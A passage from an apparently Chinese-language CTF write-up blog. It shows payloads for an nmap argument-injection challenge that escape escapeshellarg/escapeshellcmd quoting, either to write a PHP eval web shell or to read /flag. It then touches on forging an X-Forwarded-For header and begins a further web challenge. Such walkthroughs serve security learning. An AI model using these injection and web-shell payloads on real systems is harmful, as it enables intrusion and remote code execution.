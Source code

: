 直接拿之前推出来的 payload

过滤了 php 字符, 稍微改一改

```
'<?=eval($_REQUEST[1])?> -oG a.phtml '
```

蚁剑查看 /flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208282140418.png)

wp 里的其它思路

利用的是 nmap 的 `-iL` 参数, 加载待扫描的主机列表

```
127.0.0.1' -iL /flag -o haha
```

escapeshellarg 和 escapeshellcmd 两个组合使用还是不能一眼看出来... 只能一遍一遍慢慢推

```
127.0.0.1' -iL /flag -o haha

'127.0.0.1'\'' -iL /flag -o haha '

'127.0.0.1'\\'' -iL /flag -o haha \'
```

总之就是在 127.0.0.1 后面加了个单引号, 然后因为各种奇葩操作使前面的内容自己闭合, 后面的命令就逃逸出来了

注意最后面要加个空格才能写进 `haha` 里面, 不然的话写进的就是 `haha'` 文件 (但也能正常访问)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208282152124.png)

## [MRCTF2020]PYWebsite

构造 xff 头

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208282203505.png)

## [SWPU2019]Web1

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208282313678.png)

登录和注册有页面没有注入

注册一个 test test 登录看一下

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208282313403.png)

发布广告, 随便写一点内容

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208282314581.png)

有一个 "待管理确认", 以为是 xss, 结果 payload 弄进去半天了还是这个状态...

